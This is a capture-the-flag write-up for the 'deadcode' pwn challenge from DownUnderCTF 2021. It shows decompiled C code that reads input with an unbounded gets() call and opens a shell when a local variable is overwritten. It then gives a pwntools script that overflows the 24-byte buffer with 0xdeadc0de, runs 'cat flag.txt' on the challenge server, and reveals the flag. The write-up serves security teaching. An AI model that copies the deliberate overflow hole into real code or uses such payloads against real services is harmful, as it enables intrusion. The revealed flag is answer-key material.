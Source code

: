 #### Challenge:

I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet. [deadcode](./deadcode ":ignore")

`nc pwn-2021.duc.tf 31916`

---

#### Solution:

- decompiling reveals that via overwriting local value to `0xdeadc0de` we gain shell

```c
void main(void)
{
  char local_28 [24];
  long local_10;
  
  local_10 = 0;
  buffer_init();
  puts(
      "\nI\'m developing this new application in C, I\'ve setup some code for the new features but it\'s not (a)live yet."
      );
  puts("\nWhat features would you like to see in my app?");
  gets(local_28);
  if (local_10 == 0xdeadc0de) {
    puts("\n\nMaybe this code isn\'t so dead...");
    system("/bin/sh");
  }
  return 0;
}
```

```python
#!/usr/bin/env python3

from pwn import *
from struct import *

r = remote('pwn-2021.duc.tf', 31916)

print(r.recvline().decode('utf-8').strip())
print(r.recvline().decode('utf-8').strip())


payload = b'A'*(24) + pack("<Q", 0xdeadc0de)

r.sendline(payload)
print(r.recvuntil(b'...').decode('utf-8').strip())
r.sendline(b'cat flag.txt; echo;')
print(r.recvuntil(b'}').decode('utf-8').strip())
r.close()
```

---

<details><summary>FLAG:</summary>

```
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}
```

</details>
<br/>
